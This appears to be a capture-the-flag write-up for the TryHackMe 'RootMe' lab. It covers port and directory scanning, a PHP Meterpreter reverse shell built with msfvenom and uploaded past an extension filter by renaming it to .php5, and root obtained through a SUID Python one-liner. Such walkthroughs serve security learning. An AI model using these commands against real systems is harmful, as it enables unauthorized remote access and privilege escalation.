 # RootMe

## Reconnaissance
Let's start the enumeration with scanning the ports, which we can do with ```nmap```. This can be done with the command ```nmap -A -T4 <ip>```.

![nmap](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/nmap.png)

As we can see there are two ports open, port 22 for ssh and port 80 for http. The SSH version running is OpenSSH 7.6p1 and the server is an Apache server running on ubuntu. For further enumeration we can use ```ffuf``` with the command ```ffuf -w /usr/share/wordlists/dirb/big.txt -u "http://<ip>/FUZZ"```.

![ffuf](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/fuzzing.png)

The output shows us that that there are two hidden directories, panel and uploads. When entering <ip>/panel we can see that there is an upload form.

![panel](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/panel.png)

## Getting a shell
Lets see if we can upload a reverse shell through the upload form. We can create an reverse shell with the command ``` msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php```. When trying to upload our reverse shell we can see that there is an filter in place that does not accept ```.php``` files. We can try to get around the filter by changing the extension to ```.php5```. That worked! Now we can go to <ip>/uploads and run the file while we try to catch the reverse shell. We can catch the reverse shell with metasploit (msfconsole). I used the payload ```php/meterpreter_reverse_tcp```. Set the options LHOST <your ip> and LPORT <choosen port>.

![msf](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/msf.png)

## Privilege escalation
Now that we have gotten onto the computer we can start with the privilege escalation, we can start the enumeration with ```find / -perm -u=s -type f 2>/dev/null``` which will find the executable files with the SUID bit set.

![priv_esc1](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/priv_esc.png)

As we can see /usr/bin/python has the SUID bit set, we can use this to escalate our privileges with the command ```/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'```

![priv_esc2](https://github.com/nicolai-h/tryhackme/blob/main/root_me/images/priv_esc2.png)

And there we have it!
